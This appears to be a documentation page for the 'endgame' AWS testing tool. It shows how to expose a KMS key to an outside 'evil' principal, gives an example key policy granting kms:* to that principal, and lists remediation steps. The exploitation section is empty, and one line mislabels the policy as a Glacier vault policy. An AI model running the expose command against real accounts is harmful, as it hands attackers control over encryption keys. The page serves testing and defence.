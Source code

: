# KMS Keys

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service kms --name test-resource-exposure
```

* To view the contents of the Glacier Vault Access Policy, run the following:

```bash
export VICTIM_KEY_ARN=arn:aws:kms:us-east-2:111122223333:key/1234abcd-12ab-34cd-56ef-1234567890ab

aws kms get-key-policy --key-id $VICTIM_KEY_ARN --policy-name default
```

* Observe that the output of the overly permissive KMS Key Policy resembles the example shown below.

## Example

Observe that the policy below allows the evil principal (`arn:aws:iam::999988887777:user/evil`) the `kms:*` permissions to the KMS Key.

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "Endgame",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::999988887777:user/evil"
            },
            "Action": "kms:*",
            "Resource": "arn:aws:kms:us-east-1:111122223333:key/1234abcd-12ab-34cd-56ef-1234567890ab"
        }
    ]
}
```

## Exploitation

```
TODO
```

## Remediation
* **Trusted Accounts Only**: Ensure that KMS Keys are only shared with trusted accounts, and that the trusted accounts truly need access to the key.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to  KMS Keys. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your KMS Keys**: Tightly control access to the following IAM actions:
  - [kms:PutKeyPolicy](https://docs.aws.amazon.com/kms/latest/APIReference/API_PutKeyPolicy.html): _Controls permission to replace the key policy for the specified customer master key_
  - [kms:GetKeyPolicy](https://docs.aws.amazon.com/kms/latest/APIReference/API_GetKeyPolicy.html): _Controls permission to view the key policy for the specified customer master key_
  - [kms:ListKeys](https://docs.aws.amazon.com/kms/latest/APIReference/API_ListKeys.html): _Controls permission to view the key ID and Amazon Resource Name (ARN) of all customer master keys in the account_
  - [kms:ListAliases](https://docs.aws.amazon.com/kms/latest/APIReference/API_ListAliases.html): _Controls permission to view the aliases that are defined in the account. Aliases are optional friendly names that you can associate with customer master keys_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

* [put-key-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/kms/put-key-policy.html)
* [get-key-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/kms/get-key-policy.html)